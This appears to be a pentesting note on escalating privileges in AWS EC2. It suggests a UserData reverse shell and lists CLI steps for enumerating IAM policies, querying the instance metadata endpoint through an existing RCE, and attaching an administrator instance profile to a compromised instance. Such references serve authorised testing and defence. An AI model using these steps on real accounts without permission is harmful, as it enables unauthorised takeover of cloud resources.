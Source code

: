 # AWS EC2 Privilege Escalation

### One approach to get a shell in an instance is to put a reverse shell in UserData attribute, when the instance is launched, we will have the connection.

### Another approach happens when we have the iam:PassRole and iam:AmazonEC2FullAccess permissions, we can add an administrator role to the compromised EC2 instance and access aws services.

## Steps:

#### 1) Getting information about the key

    aws sts get-caller-identity

#### 2) Getting policies attached to the IAM user

    aws iam list-attached-user-policies --user-name USER_NAME

#### 3) Getting information about a specific policy version

    aws iam get-policy-version --policy-arn ARN --version-id ID

#### 4) To attach a role to an EC2 instance, we can use the RCE to grab the ID

    curl http://169.254.169.254/latest/meta-data/instance-id

#### 5) Listing instance profiles

    aws iam list-instance-profiles

#### 6) Attach an instance profile to an EC2 instance

    aws ec2 associate-iam-instance-profile --instance-id ID --iam-instance-profile NAME
